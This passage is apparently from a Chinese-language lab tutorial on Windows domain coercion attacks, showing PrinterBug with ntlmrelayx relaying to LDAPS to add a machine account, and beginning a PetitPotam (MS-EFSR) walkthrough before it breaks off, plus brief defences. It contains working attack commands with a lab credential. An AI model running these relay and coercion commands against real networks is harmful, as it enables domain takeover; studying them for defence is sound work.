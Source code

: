     ```shell
    python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --add-computer JustTest$ --remove-mic
    ```
2. 使用 printerbug 漏洞利用工具  
    printerbug.py 触发辅域控进行强制验证
    
    ```shell
    python3 printerbug.py hack.lab/spiderman:123.com@20.20.20.6 20.20.20.100
    ```
    
    PS：这里攻击辅域控是因为域控发起的验证不能中继回自身（相关细节见MS08-068），故这里对辅域控进行强制验证。

![x1NjAO.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-4aa8bbf734f99ce24f132394b769ef85cc2000b8.png)

3. 效果分析  
    可以看到ntlmrelay中执行的添加用户的操作成功执行了，进而验证了 PrintBug 强制触发认证攻击成功。

#### 防御措施

- 非必要不启用 Print Spooler 服务
- 限制出入站的 NTLM 认证
- 打微软官方补丁

### 02 PeitiPotam

> MS-EFSR  
> \\PIPE\\lsarpc  
> EfsRpcOpenFileRaw()

#### 攻击原理

在微软加密文件系统远程协议（`Microsoft Encrypting File System Remote Protocol, MS-EFSRPC`）中，提供了 EfsRpcOpenFileRaw() 接口，该 API 用于维护和管理远程网络访问的加密对象。  
攻击者使用 MS-EFSRPC 协议连接到服务器，通过修改EfsRpcOpenFileRaw() 中的 FileName 参数劫持认证会话，迫使服务器进行强制验证。

简而言之，劫持目标函数中的FileName参数触发强制认证。

条件：

- 目标支持 MS-EFSR 协议
- 拥有一个域用户凭据信息

#### 攻击流程&amp;相关工具

工具地址 - [PetitPotam](https://github.com/topotam/PetitPotam)

实验测试：

> 环境简介  
> 域名 - hack.lab  
> 域控 - DC01 - 20.20.20.5  
> 辅域 - F2016 - 20.20.20.6  
> 域主机 - USER01 - 20.20.20.10  
> Kali - 20.20.20.100

1. 启动监听器 ntlmrelay.py  
    这里和上面一样，也是通过添加用户来验证 PeitiPotam 强制验证成功与否。
    